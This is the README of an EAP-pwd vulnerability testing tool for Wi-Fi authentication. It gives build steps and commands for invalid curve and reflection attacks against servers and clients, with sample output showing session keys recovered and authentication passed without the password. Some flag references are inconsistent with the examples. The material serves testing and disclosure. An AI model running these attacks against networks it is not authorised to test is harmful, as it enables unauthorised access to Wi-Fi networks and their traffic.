 This is an experimental tool to test EAP-pwd implementations for vulnerabilities. We also strongly recommend to perform code inspections to assure all vulnerabilities have been properly addressed.

# Prerequisites

Our scripts were tested on Kali Linux. To install the required dependencies on Kali, execute:

	apt-get update
	apt-get install libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git

After this, compile our modified hostapd and wpa_supplicant tools:

      cd dragonslayer
      ./build.sh

Remember to disable Wi-Fi in your network manager before using our scripts. After disabling Wi-Fi, execute `sudo rfkill unblock wifi` so our scripts can still use Wi-Fi.


# Summary

The attack parameters of our tool are:

- `-a 0`: perform reflection attack.
- `-a 1`: perform invalid curve attack.
- `-a 2`: perform second variant of the invalid curve attack

See the examples below for more information.

# Testing attacks against the server

## Preperation

Edit the file `dragonslayer/client.conf` and specify:

1. The SSID of the network name using the `ssid` parameter.
2. A valid EAP-pwd username using the `identity` parameter. The attacks don't work with an invalid username.
3. Leave the other parameters untouched.

An example of `dragonslayer/client.conf` is the following:

	network={
		ssid="dragonblood"
		key_mgmt=WPA-EAP
		eap=PWD
		identity="bob"
		password="unknown password"
	}

## Invalid curve attack

To test whether an EAP-pwd server is vulnerable to invalid curve attacks, start `dragonslayer-client.sh` using the `-a 1` parameter. You must also specify the wireless interface being used with the `-i` parameter. For example:

	[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 1
	[sudo] password for mathy: 
	Successfully initialized wpa_supplicant
	wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=WORLD
	wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=COUNTRY alpha2=US
	wlp2s0: SME: Trying to authenticate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
	wlp2s0: Trying to associate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
	wlp2s0: Associated with 38:2c:4a:c1:69:c0
	wlp2s0: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
	wlp2s0: CTRL-EVENT-EAP-STARTED EAP authentication started
	wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
	wlp2s0: CTRL-EVENT-EAP-METHOD EAP vendor 0 method 52 (PWD) selected
	EAP-PWD (peer): server sent id of - hexdump_ascii(len=21):
	     74 68 65 73 65 72 76 65 72 40 65 78 61 6d 70 6c   theserver@exampl
	     65 2e 63 6f 6d                                    e.com           
	EAP-pwd: provisioned group 19
	[03:21:18] 38:2c:4a:c1:69:c0: sending a scalar equal to zero
	[03:21:18] 38:2c:4a:c1:69:c0: sending generator of small subgroup as the element
	[03:21:18] 38:2c:4a:c1:69:c0: trying to recover session key..
	[03:21:18] 38:2c:4a:c1:69:c0: successfully recovered the session key. Server is vulnerable to invalid curve attack!
	wlp2s0: CTRL-EVENT-EAP-SUCCESS EAP authentication completed successfully
	wlp2s0: PMKSA-CACHE-ADDED 38:2c:4a:c1:69:c0 0
	wlp2s0: WPA: Key negotiation completed with 38:2c:4a:c1:69:c0 [PTK=CCMP GTK=CCMP]
	wlp2s0: CTRL-EVENT-CONNECTED - Connection to 38:2c:4a:c1:69:c0 completed [id=0 id_str=]

Notice that the tool will display **Server is vulnerable to invalid curve attack!** if it is indeed vulnerable. If this message is not vulnerable, try performing the attack a few times again. If none of the attack attempts succeed, the EAP-pwd server is not vulnerable to this specific attack. In this case, also try attacking the EAP-pwd server using a small variant of the invalid curve attack using the `-a 2` parameter:

	[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 1
	...

Similar to the case above, it will display **Server is vulnerable to invalid curve attack!** if it is indeed vulnerable. If this message is not displayed after several attempts, the EAP-pwd server is not vulnerable to this specific attack.

We also recommend that you audit the server code itself. It can be that these specific attacks don't work, but that more specialized attacks would still work.


## Reflection attack

To test whether an EAP-pwd server is vulnerable to a reflection attack, start `dragonslayer-client.sh` using the `-a 1` parameter. You must also specify the wireless interface being used with the `-i` parameter. For example:

	[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 0
	Successfully initialized wpa_supplicant
	wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=WORLD
	wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=COUNTRY alpha2=US
	wlp2s0: SME: Trying to authenticate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
	wlp2s0: Trying to associate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
	wlp2s0: Associated with 38:2c:4a:c1:69:c0
	wlp2s0: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
	wlp2s0: CTRL-EVENT-EAP-STARTED EAP authentication started
	wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
	wlp2s0: CTRL-EVENT-EAP-METHOD EAP vendor 0 method 52 (PWD) selected
	EAP-PWD (peer): server sent id of - hexdump_ascii(len=21):
	     74 68 65 73 65 72 76 65 72 40 65 78 61 6d 70 6c   theserver@exampl
	     65 2e 63 6f 6d                                    e.com           
	EAP-pwd: provisioned group 19
	[03:22:11] 38:2c:4a:c1:69:c0: Reflected server scalar and element in commit frame
	[03:22:11] 38:2c:4a:c1:69:c0: Skipping verification of recieved confirm value
	[03:22:11] 38:2c:4a:c1:69:c0: Reflected confirm value in confirm frame
	wlp2s0: CTRL-EVENT-EAP-SUCCESS EAP authentication completed successfully
	[03:22:11] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
	wlp2s0: PMKSA-CACHE-ADDED 38:2c:4a:c1:69:c0 0
	[03:22:12] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
	[03:22:13] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
	[03:22:14] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!

The tool will display **server is vulnerable to reflection attack!** if it is vulnerable. If this message is not display, try executing the attack several times. If the server is never detected as being vulnerable, it is not vulnerable to this specific attack.

# Testing attacks against the client

## Preperation

First modify `dragonslayer/hostapd.conf` and **edit the line `interface=` to specify the Wi-Fi interface** that will be used to execute the tests. Note that for all tests, once the script is running, you must let the device being tested connect to the **SSID dragonslayer with as username bob** and the password can be anything. You can change settings of the AP by modifying `dragonslayer/hostapd.conf`.

## Invalid curve attack

To test whether an EAP-pwd client is vulnerable to invalid curve attacks, start `dragonslayer-server.sh` using the `-a 1` parameter. Using the server is running, connect to it with the client you want to test. For example:

	[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-server.sh -a 1
	Configuration file: hostapd.conf
	Using interface wlp2s0 with hwaddr 8a:f5:40:f9:5d:c0 and ssid "dragonblood"
	wlp2s0: interface state UNINITIALIZED->ENABLED
	wlp2s0: AP-ENABLED 
	wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.11: authenticated
	wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.11: associated (aid 1)
	wlp2s0: CTRL-EVENT-EAP-STARTED c4:e9:84:db:fb:7b
	wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
	wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
	EAP-pwd: provisioned group 19
	[03:48:15] c4:e9:84:db:fb:7b: sending a scalar equal to zero
	[03:48:15] c4:e9:84:db:fb:7b: sending generator of small subgroup as the element
	[03:48:15] c4:e9:84:db:fb:7b: configured X-coordinate of subgroup generator as session key
	[03:48:15] c4:e9:84:db:fb:7b: Successfully recovered the session key. Client is vulnerable to invalid curve attack!
	wlp2s0: CTRL-EVENT-EAP-SUCCESS c4:e9:84:db:fb:7b
	wlp2s0: STA c4:e9:84:db:fb:7b WPA: pairwise key handshake completed (RSN)
	wlp2s0: AP-STA-CONNECTED c4:e9:84:db:fb:7b
	wlp2s0: STA c4:e9:84:db:fb:7b RADIUS: starting accounting session 35BB5B4BB3793544
	wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.1X: authenticated - EAP type: 0 (unknown)

The tool will display **Client is vulnerable to invalid curve attack!** if it is vulnerable. If this message is not display, try executing the attack several times. If the server is never detected as being vulnerable, it is not vulnerable to this specific attack.


